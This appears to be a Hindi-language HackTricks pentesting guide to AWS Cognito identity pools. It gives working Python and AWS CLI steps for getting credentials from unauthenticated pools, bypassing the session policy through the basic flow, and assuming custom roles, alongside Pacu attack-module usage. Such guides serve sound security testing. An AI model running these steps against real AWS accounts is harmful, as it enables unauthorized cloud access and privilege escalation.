 # कोग्निटो आईडेंटिटी पूल

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github repos में PRs सबमिट करके।

</details>

## मौलिक जानकारी

आईडेंटिटी पूल एक महत्वपूर्ण भूमिका निभाते हैं जिसके द्वारा आपके उपयोगकर्ताओं को **अस्थायी प्रमाणिकता** प्राप्त करने की सुविधा प्रदान की जाती है। ये प्रमाणिकताएँ Amazon S3 और DynamoDB सहित विभिन्न AWS सेवाओं तक पहुंचने के लिए आवश्यक हैं। आईडेंटिटी पूल की एक महत्वपूर्ण विशेषता यह है कि इनका समर्थन उपयोगकर्ता प्रमाणीकरण के लिए अनाम अतिथि उपयोगकर्ताओं और विभिन्न पहचान प्रदाताओं के लिए है। समर्थित पहचान प्रदाताओं में शामिल हैं:

- Amazon Cognito उपयोगकर्ता पूल
- फेसबुक, गूगल, अमेज़न लॉगिन और एप्पल साथ में साइन-इन जैसे सोशल साइन-इन विकल्प
- OpenID Connect (OIDC) के अनुपालन करने वाले प्रदाताएँ
- SAML (सुरक्षा दावा चिह्नित भाषा) आईडेंटिटी प्रदाताएँ
- डेवलपर प्रमाणीकृत पहचानें
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### कोग्निटो सिंक

आईडेंटिटी पूल सत्रों को उत्पन्न करने के लिए, आपको पहले **आईडेंटिटी आईडी उत्पन्न करनी** होगी। यह आईडेंटिटी आईडी **उस उपयोगकर्ता के सत्र की पहचान** है। ये पहचान 20 डेटासेट्स तक हो सकती हैं जिनमें 1MB तक की कुंजी-मान-जोड़ी संग्रहीत की जा सकती है।

यह **उपयोगी है उपयोगकर्ता की जानकारी को रखने के लिए** (जो हमेशा एक ही आईडेंटिटी आईडी का उपयोग करेगा)।

इसके अतिरिक्त, सेवा **कोग्निटो-सिंक** वह सेवा है जो इस जानकारी को **प्रबंधित और समकालिक करने की अनुमति देती है** (डेटासेट्स में, स्ट्रीम्स में जानकारी भेजने और एसएनएस मैसेज में...)।

### पेंटेस्टिंग के लिए उपकरण

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS शोषण ढांचा, अब "cognito\_\_enum" और "cognito\_\_attack" मॉड्यूल शामिल करता है जो खाते में सभी कोग्निटो संपत्तियों का सूचीकरण स्वचालित करते हैं और कमजोर विन्यास, पहुंच नियंत्रण के लिए उपयोग किए जाने वाले उपयोगकर्ता गुण, आदि को ध्वजित करते हैं, और उपयोगकर्ता निर्माण (एमएफए समर्थन सहित) और संशोधन उच्चता स्वचालित करते हैं जो संशोधन योग्य अनुकूल गुण, उपयोगी आईडेंटिटी पूल क्रेडेंशियल्स, आईडी टोकन्स में अस्वीकार्य भूमिकाएँ, आदि पर आधारित है।

मॉड्यूल के कार्यों का विवरण के लिए [ब्लॉग पोस्ट](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) का भाग 2 देखें। स्थापना निर्देशों के लिए मुख्य [Pacu](https://github.com/RhinoSecurityLabs/pacu) पृष्ठ देखें।

#### उपयोग

उपयोगकर्ता निर्माण का प्रयास करने और एक दिये गए आईडेंटिटी पूल और उपयोगकर्ता पूल क्लाइंट के खिलाफ सभी प्रिवेसेक वेक्टर्स के खिलाफ cognito\_\_attack उपयोग का नमूना:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
निम्नलिखित cognito\_\_enum उपयोग का उदाहरण वर्तमान AWS खाते में दिखाई देने वाले सभी उपयोगकर्ता पूल, उपयोगकर्ता पूल क्लाइंट, पहचान पूल, उपयोगकर्ता आदि को एकत्र करने के लिए:
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) एक CLI टूल है जो पायथन में है और जो Cognito पर विभिन्न हमले को शामिल करता है, जैसे अवांछित खाता निर्माण और पहचान पूल उन्नति।

#### स्थापना
```bash
$ pip install cognito-scanner
```
#### उपयोग
```bash
$ cognito-scanner --help
```
अधिक जानकारी के लिए https://github.com/padok-team/cognito-scanner देखें

## IAM भूमिकाओं तक पहुंचना

### अप्रमाणित

किसी हमलावर को Cognito ऐप में AWS क्रेडेंशियल प्राप्त करने के लिए एकमात्र वस्तु जो जाननी है, वह है **आईडेंटिटी पूल आईडी**, और इस **आईडी को वेब/मोबाइल एप्लिकेशन** में **हार्डकोड** करना चाहिए ताकि इसका उपयोग किया जा सके। एक आईडी इस तरह दिखता है: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (इसे ब्रूटफोर्स नहीं किया जा सकता है)।

{% hint style="success" %}
**आईएम Cognito अप्रमाणित भूमिका जिसे** डिफ़ॉल्ट रूप से बुलाया जाता है `Cognito_<आईडेंटिटी पूल नाम>Unauth_Role`
{% endhint %}

अगर आपको किसी आईडेंटिटी पूल आईडी को हार्डकोड किया मिलता है और यह अप्रमाणित उपयोगकर्ताओं को अनुमति देता है, तो आप AWS क्रेडेंशियल प्राप्त कर सकते हैं:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
या आप निम्नलिखित **aws cli commands** का उपयोग कर सकते हैं:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
ध्यान दें कि डिफ़ॉल्ट रूप से एक अनधिकृत कोग्निटो **उपयोगकर्ता किसी भी अनुमति नहीं रख सकता, भले ही यह नीति के माध्यम से निर्धारित की गई हो**। निम्नलिखित खंड की जाँच करें।
{% endhint %}

### उन्नत बनाम बेसिक प्रमाणीकरण प्रवाह

पिछला खंड डिफ़ॉल्ट उन्नत प्रमाणीकरण प्रवाह का पालन करता था। यह प्रवाह एक **प्रतिबंधक** [**सत्र नीति**](../../aws-basic-information/#session-policies) को आईएएम रोल सत्र जिनरेट किया गया सत्र लगाता है। यह नीति केवल सत्र को [**इस सूची से सेवाओं का उपयोग करने देगी**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (भले ही रोल को अन्य सेवाओं तक पहुंच हो).

हालांकि, इसे छलने का एक तरीका है, अगर **आईडेंटिटी पूल में "बेसिक (क्लासिक) प्रवाह" सक्षम है**, तो उपयोगकर्ता उस प्रवाह का उपयोग करके एक सत्र प्राप्त कर सकेगा जिसमें **उस प्रतिबंधक सत्र नीति नहीं होगी**।

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
यदि आपको यह **त्रुटि** मिलती है, तो यह **मूल फ्लो अक्षम (डिफ़ॉल्ट)** होने के कारण है

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAM क्रेडेंशियल्स के सेट होने पर आपको [जांचना चाहिए कि आपके पास कौनसा एक्सेस है](../../#whoami) और [वर्चस्व को उन्नत करने](../../aws-privilege-escalation/) का प्रयास करें।

### प्रमाणित

{% hint style="info" %}
ध्यान रखें कि **प्रमाणित उपयोगकर्ताओं** को संभावित रूप से **विभिन्न अनुमतियाँ** प्रदान की जाएंगी, इसलिए यदि आप **ऐप्लिकेशन के अंदर साइन अप कर सकते हैं**, तो उसे करने का प्रयास करें और नए क्रेडेंशियल्स प्राप्त करें।
{% endhint %}

यहाँ **प्रमाणित उपयोगकर्ताओं के लिए उपलब्ध भूमिकाएँ** भी हो सकती हैं जो आईडेंटिटी पूल तक पहुंचने वाले प्रमाणित उपयोगकर्ताओं के लिए उपलब्ध हों।

इसके लिए आपको **आईडेंटिटी प्रदाता** तक पहुंचने की आवश्यकता हो सकती है। यदि यह एक **कोग्निटो उपयोगकर्ता पूल** है, तो शायद आप मूल व्यवहार का शोषण कर सकते हैं और **नया उपयोगकर्ता खुद से बना सकते हैं**।

{% hint style="success" %}
**आईएएम कोग्निटो प्रमाणित भूमिका जो बनाई गई है**, उसे डिफ़ॉल्ट रूप से `Cognito_<Identity Pool name>Auth_Role` कहा जाता है।
{% endhint %}

वैसे, **निम्नलिखित उदाहरण** की उम्मीद है कि आप पहले से ही एक **कोग्निटो उपयोगकर्ता पूल** में लॉग इन कर चुके हैं जिसका उपयोग आईडेंटिटी पूल तक पहुंचने के लिए किया गया है (यह याद रखें कि अन्य प्रकार के आईडेंटिटी प्रदाताओं को भी कॉन्फ़िगर किया जा सकता है)।

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# पिछले कमांड के प्रतिक्रिया से identity_id प्राप्त करें
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# IdToken में उपयोगकर्ता के पास एक्सेस करने के लिए भूमिकाएँ पाई जा सकती हैं क्योंकि उपयोगकर्ता पूल समूहों के कारण
# एक विशिष्ट भूमिका के लिए क्रेडेंशियल प्राप्त करने के लिए --custom-role-arn का उपयोग करें
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
**यह संभावना है कि आईडेंटिटी प्रदाता के आधार पर विभिन्न IAM भूमिकाएँ कॉन्फ़िगर की जा सकती हैं** जिस प्रयोक्ता को लॉग इन किया जा रहा है या फिर केवल **उपयोक्ता के आधार पर** (दावों का उपयोग करके)। इसलिए, यदि आपके पास एक ही या विभिन्न प्रदाताओं के माध्यम से विभिन्न उपयोगकर्ताओं तक पहुंच है, तो संभावना है कि आपको **लॉग इन करने और उन सभी के आईएम भूमिकाओं तक पहुंचने में लाभ हो सकता है**।
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ शून्य से हीरो तक AWS हैकिंग सीखें</summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन देखना चाहते हैं HackTricks में या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकिंग ट्रिक्स को पीआर के माध्यम से [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में सबमिट करके।

</details>

